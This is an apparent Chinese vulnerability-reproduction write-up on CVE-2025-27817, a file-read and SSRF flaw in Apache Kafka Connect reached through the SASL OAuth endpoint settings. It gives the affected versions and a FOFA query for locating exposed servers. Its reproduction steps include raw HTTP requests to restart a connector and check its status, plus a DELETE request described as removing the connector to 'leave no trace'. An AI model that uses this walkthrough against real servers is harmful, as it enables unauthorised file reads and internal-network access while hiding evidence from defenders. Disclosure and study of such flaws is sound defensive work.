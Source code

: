 ## 1. Apache Kafka 简介

微信公众号搜索：南风漏洞复现文库
该文章 南风漏洞复现文库 公众号首发

Apache Kafka 是一个分布式的流式数据平台，可以用于构建实时的数据管道和流式应用程序。

## 2.漏洞描述

2025年6月10日，Apache发布安全公告，修复了一个存在于 Apache Kafka Clients 中的任意文件读取与SSRF漏洞。漏洞编号：CVE-2025-27817，攻击者在可以控制Apache Kafka Connect 客户端的情况下，可通过SASL JAAS 配置和基于 SASL 的安全协议在其上创建或修改连接器相关配置，利用部分参数例如 sasl.oauthbearer.token.endpoint.url 和 sasl.oauthbearer.jwks.endpoint.url，造成任意文件读取与SSRF漏洞。Apache Kafka Connect 属于底层组件依赖，其前提利用条件需要视具体应用环境。如您在使用阿里云E-MapReduce集群，可根据EMR漏洞公告查看受漏洞影响的产品版本范围。如产品版本不受影响或已根据修复流程进行了漏洞修复，则可忽略当前漏洞。

CVE编号:CVE-2025-27817

CNNVD编号:

CNVD编号:

## 3.影响版本

3.1.0 <= Apache Kafka Client <= 3.9.0

![图片](Apache%20Kafka%20Connect%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%E4%B8%8ESSRF%E6%BC%8F%E6%B4%9ECVE-2025-27817.assets/640.jpeg)

## 4.fofa查询语句

header="Jetty" && body="kafka_cluster_id"

## 5.漏洞复现

漏洞链接：http://xx.xx.xx.xx/connectors

![图片](Apache%20Kafka%20Connect%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%E4%B8%8ESSRF%E6%BC%8F%E6%B4%9ECVE-2025-27817.assets/640-1750124567567-3.jpeg)

重启，使配置文件生效。

```
POST /connectors/319572437340/restart HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 1

 
```

![图片](Apache%20Kafka%20Connect%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%E4%B8%8ESSRF%E6%BC%8F%E6%B4%9ECVE-2025-27817.assets/640-1750124567568-4.jpeg)

读取响应信息可通过以下接口查看连接器状态和错误信息，判断漏洞是否生效
http://xx.xx.xx.xx/connectors/319572437340/status

![图片](Apache%20Kafka%20Connect%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%E4%B8%8ESSRF%E6%BC%8F%E6%B4%9ECVE-2025-27817.assets/640-1750124567568-5.jpeg)

删除节点，不留痕

```
DELETE /connectors/319572437340 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 0
```

